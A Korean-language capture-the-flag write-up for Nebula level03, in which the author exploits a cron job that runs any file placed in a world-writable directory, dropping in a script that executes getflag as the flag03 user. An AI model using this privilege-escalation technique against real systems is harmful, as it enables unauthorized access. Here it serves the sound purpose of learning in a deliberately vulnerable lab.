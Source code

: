 # Plot

## About

Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

## 기초 조사

문제에서 지시한대로 `flag03`의 홈 디렉토리에 가보면 `writable.sh`이란 이름의 쉘 스크립트와 `writable.d`란 디렉토리가 있다. `writable.sh`가 `flag03`의 권한을 가지고 있으니 저걸 어떻게 이용하면 될 것 같다.

```sh
level03@nebula:/home/flag03$ ls -al
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root     100 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

## 쉘 스크립트 분석

```bash
for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

1. `/home/flag03/writable.d` 디렉토리에 있는 파일들을 iterate 한다.
2. `ulimit -t 5`로 cpu time을 5초로 줄인다.
3. `bash -x`로 파일에 들어있는 내용을 실행한다. `-x` 옵션은 각 단계를 `trace`할 수 있게 해주는 옵션이다.
4. 3번을 마쳤으면 파일을 삭제한다.
5. 반복한다.

`writable.d`에 `/bin/sh`을 담은 파일을 추가하고 실행하면 쉘이 뜨긴 하는데 권한은 `level03` 그대로 유지 된다. 어떻게 해야 될까?

## 자동으로 실행되는 `writable.sh`

[참고한 풀이 방법](https://cybergibbons.com/security-2/nebula-walkthrough/nebula-exploit-exercises-walkthrough-level03/)

```bash
level03@nebula:/home/flag03/writable.d$ getflag
getflag is executing on a non-flag account, this doesn't count
level03@nebula:/home/flag03/writable.d$ cat ~/getflag.sh
#!/bin/sh

/bin/getflag >> /tmp/flag03.out
level03@nebula:/home/flag03/writable.d$ cp ~/getflag.sh .
level03@nebula:/home/flag03/writable.d$ ls
getflag.sh
level03@nebula:/home/flag03/writable.d$ ls
level03@nebula:/home/flag03/writable.d$ cat /tmp/flag03.out
You have successfully executed getflag on a target account
```

문제를 푸는 계정인 `level03`은 따로 cron이 설정되어 있지 않고, `flag03` 계정에는 `writable.sh`를 cron으로 몇분에 한번씩 실행을 한다. `writable.d` 디렉토리에 `getflag`를 실행해 `/tmp/flag03.out`에 stdout을 내보내는 스크립트를 넣고 기다리면 자동으로 실행이 되고, 결과를 확인 할 수 있다.

음... 이것 보단 `flag03`의 쉘을 직접 가져오고 싶은데... 더 해봐야 겠다.